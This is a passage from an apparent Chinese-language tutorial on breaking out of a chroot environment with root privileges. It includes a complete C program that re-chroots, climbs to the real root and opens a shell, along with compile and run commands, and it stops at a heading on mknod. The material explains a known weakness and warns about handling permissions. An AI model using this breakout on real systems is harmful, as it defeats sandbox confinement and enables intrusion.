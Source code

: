 如果有root权限，可以用很多种方法跳出chroot环境。

### 在新环境中使用chroot

最简单最通用的方法是在新环境中再使用一下chroot。写一个程序可以轻易的跳出chroot环境。方法如下：

1. 在当前环境中新建一个文件夹，并chroot到它。
2. 一直执行“cd ..”，就会回到系统真正的根目录。
3. chroot到这个真正的根目录。

下面是一个简单的C语言代码示例，我们将它保存为jumpout.c：

```
//jumpout.c

#include <stdio.h>  
#include <unistd.h>  
   
#define TEMP_DIR "temp"  
   
int main()
{  
    int x;
    chroot(TEMP_DIR);
    for(x=0;x<1024;x++)   
        chdir("..");  
    chroot(".");  
    execl("/bin/sh", "-i", NULL);
    
    return 0; 
}
```

现在来体验一下这段代码。首先静态编译（这样编译后的可执行文件就不需要动态链接库的支持了）:

```
gcc --static jumpout.c -o jumpout
```

然后在newroot下面新建一个名为temp的文件夹：

```
mkdir temp
```

这样准备工作就做好了。现在chroot到newroot，然后执行jumpout：

```
chroot . /bin/bash
./jumpout
```

可以看到我们现在已经跳出chroot环境了。各种命令都可以使用，并且文件夹也都是真正的根文件夹下的结构。

使用perl等其它语言也可以达到同样的效果。很多服务器都支持CGI脚本，这种攻击不是没有可能。因此在chroot之后处理好权限是非常重要的。

### 使用mknod(2)
